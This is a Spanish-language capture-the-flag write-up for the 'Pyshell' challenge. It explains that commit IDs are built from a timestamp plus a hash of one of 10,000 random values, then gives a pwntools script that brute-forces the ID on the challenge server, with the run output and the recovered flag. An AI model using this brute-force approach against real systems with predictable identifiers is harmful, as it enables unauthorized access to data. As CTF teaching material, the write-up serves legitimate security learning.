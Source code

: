# Pyshell

Es una shell de python donde estamos limitados a unos pocos comandos, no podemos leer `flag.txt` con el comando `cat`

Al ejecutar `git commit` se crea un snapshot con id `"{tiempo actual en segundos}-{hash sha256 de un numero aleatorio entre 1 y 10000 acortado a 6 bytes}"`
```
    def _git_commit(self, args):
        if args:
            print("Usage: git commit")
            return

        import time, random, hashlib

        commit_time = int(time.time())
        rand_val = random.randint(1, 10000)
        hash_val = hashlib.sha256(str(rand_val).encode()).hexdigest()[:6]
        commit_id = f"{commit_time}-{hash_val}"

        def snapshot(directory):
            data = {}
            for name, entry in directory.entries.items():
                if isinstance(entry, File):
                    data[name] = (entry.content, "file")
                elif isinstance(entry, Directory):
                    data[name] = snapshot(entry)
                elif isinstance(entry, Symlink):
                    data[name] = (
                        entry.target,
                        "symlink",
                    )
            return data

        commit_snapshot = snapshot(self.fs["/"])
        print(commit_id)
        self.commit_history[commit_id] = commit_snapshot
        print(f"Committed.")
```
El método `_git_snapshot` es una función que muestra el contenido de un commit específico en un sistema de control de versiones

```
    def _git_snapshot(self, args):
        if len(args) != 1:
            print("Usage: git snapshot <commit_id>")
            return

        commit_id = args[0]

        if commit_id not in self.commit_history:
            print("Error: Commit ID not found.")
            return

        def print_snapshot(snapshot, indent=0):
            for name, entry in snapshot.items():
                prefix = " " * indent
                if isinstance(entry, tuple):
                    if entry[1] == "symlink":
                        print(f"{prefix}{name} -> {entry[0]} (Symlink)")
                    else:
                        print(f"{prefix}{name} (File)")
                        print(
                            f"{prefix}---\n{prefix}Content:\n{prefix}{entry[0]}\n{prefix}---"
                        )
                else:
                    print(f"{prefix}{name}/ (Directory)")
                    print_snapshot(entry, indent + 4)

        print(f"Snapshot of commit {commit_id}:")
        print_snapshot(self.commit_history[commit_id])
```

Si agregamos unas lineas para ver lo que contiene un snapshot creado con git commit encontramos que almacena el contenido de flag.txt:
``` python3
        commit_snapshot = snapshot(self.fs["/"])
        # Agregamos aqui estas lineas para depurar
        print(commit_id)                              
        print(commit_snapshot)
        # ----
        self.commit_history[commit_id] = commit_snapshot
        print(f"Committed.")

    def _git_status(self, args):
        if args:
            print("Usage: git status")
            return
```

```
> python3 shell.py
/$ git commit
1743957474-1c63ed
{'flag.txt': ('[REDACTED]', 'file'), 'shell.history': ('git commit', 'file'), '.Trash': {}}
Committed.
/$
```

Lo que debemos hacer es crear un snapshot y tratar de obtener su id mediante fuerza bruta para leer el contenido de flag.txt

## Exploit
``` python3
from pwn import *
import hashlib
import time

# Generate hashes
prehashes = [hashlib.sha256(str(i).encode()).hexdigest()[:6] for i in range(1, 10001)]

# Brute-force
io = remote("challs.breachers.in", 1340)

commit_time = int(time.time())
io.sendlineafter(b"/$ ", b"git commit")

for i,hash_val in enumerate(prehashes):
    payload = b"git snapshot " 
    payload += str(commit_time).encode()
    payload += f"-{hash_val}".encode()
    print(f"{i} -- ", payload)
    io.sendlineafter(b"/$ ", payload)
    line = io.recvline()
    if not b"Error: Commit ID not found" in line:
        break

success(io.recv())
```

```
5351 --  b'git snapshot 1743955172-044c06'
5352 --  b'git snapshot 1743955172-c34ae0'
5353 --  b'git snapshot 1743955172-2a6496'
5354 --  b'git snapshot 1743955172-89be54'
5355 --  b'git snapshot 1743955172-9e25d9'
5356 --  b'git snapshot 1743955172-47570b'
5357 --  b'git snapshot 1743955172-50e65b'
5358 --  b'git snapshot 1743955172-c5d27a'
5359 --  b'git snapshot 1743955172-c702d8'
5360 --  b'git snapshot 1743955172-a68a5f'
5361 --  b'git snapshot 1743955172-38bfb4'
5362 --  b'git snapshot 1743955172-c426ad'
5363 --  b'git snapshot 1743955172-b346a1'
5364 --  b'git snapshot 1743955172-dd5c33'
5365 --  b'git snapshot 1743955172-2c5ae0'
/home/kalcast/venv/lib/python3.12/site-packages/pwnlib/log.py:347: BytesWarning: Bytes is not text; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  self._log(logging.INFO, message, args, kwargs, 'success')
[+] flag.txt (File)
    ---
    Content:
    Breach{cr4ck3d_7h3_dummy_5h311_db0192d2e01}
    ---
    shell.history (File)
    ---
    Content:
    git commit
    ---
    .Trash/ (Directory)
    /$
[*] Closed connection to challs.breachers.in port 1340
```

`Breach{cr4ck3d_7h3_dummy_5h311_db0192d2e01}`
